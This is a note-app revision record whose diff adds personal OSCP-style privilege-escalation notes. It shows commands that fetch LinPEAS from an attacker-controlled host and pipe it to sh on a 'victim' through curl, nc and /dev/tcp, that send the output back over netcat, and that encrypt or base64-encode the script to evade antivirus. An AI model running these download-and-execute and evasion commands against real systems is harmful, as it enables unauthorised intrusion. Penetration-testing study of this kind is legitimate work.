 id: 14a839d2f4524873b0d2cee33c89b022
parent_id: 3bc6933e3b6f4ded8eadf10be15c9c45
item_type: 1
item_id: 84f533482e6d49c8a69376c38f28c27c
item_updated_time: 1643357762329
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"le\\\n\\\n\"],[-1,\"https://blog.adithyanak.com/oscp-preparation-guide/linux-privilege-escalation\"],[1,\"## LinPEAS\\\n\\\nDownload and run instantly\\\n\\\n> curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh\\\n\\\nIf use Webserver in /opt/privesc\\\n\\\n> \\\\# Local network\\\n> \\\n> sudo python -m SimpleHTTPServer 80 #Host\\\n> \\\n> curl 10.10.10.10/linpeas.sh | sh #Victim\\\n> \\\n> \\\\# Without curl\\\n> \\\n> sudo nc -q 5 -lvnp 80 < linpeas.sh #Host\\\n> \\\n> cat < /dev/tcp/10.10.10.10/80 | sh #Victim\\\n> \\\n> \\\\# Execute from memory and send output back to the host\\\n> \\\n> nc -lvnp 9002 | tee linpeas.out #Host\\\n> \\\n> curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim\\\n\\\nFor AV Bypass\\\n\\\n> #open-ssl encryption\\\n> \\\n> openssl enc -aes-256-cbc -pbkdf2 -salt -pass pass:AVBypassWithAES -in linpeas.sh -out lp.enc\\\n> \\\n> sudo python -m SimpleHTTPServer 80 #Start HTTP server\\\n> \\\n> curl 10.10.10.10/lp.enc | openssl enc -aes-256-cbc -pbkdf2 -d -pass pass:AVBypassWithAES | sh #Download from the victim\\\n> \\\n> #Base64 encoded\\\n> \\\n> base64 -w0 linpeas.sh > lp.enc\\\n> \\\n> sudo python -m SimpleHTTPServer 80 #Start HTTP server\\\n> \\\n> curl 10.10.10.10/lp.enc | base64 -d | sh #Download from the victim\\\n\\\nhttps://blog.adithyanak.com/oscp-preparation-guide/linux-privilege-escalation\\\n\\\n## Extra\\\n\\\nLinux Exploit Suggester (Suggestions based on kernel and user space\\\n\\\n> ```\\\n> `wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh`\\\n> \\\n> ```\"]],\"start1\":415,\"start2\":415,\"length1\":81,\"length2\":1372}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-28T08:19:15.625Z
created_time: 2022-01-28T08:19:15.625Z
type_: 13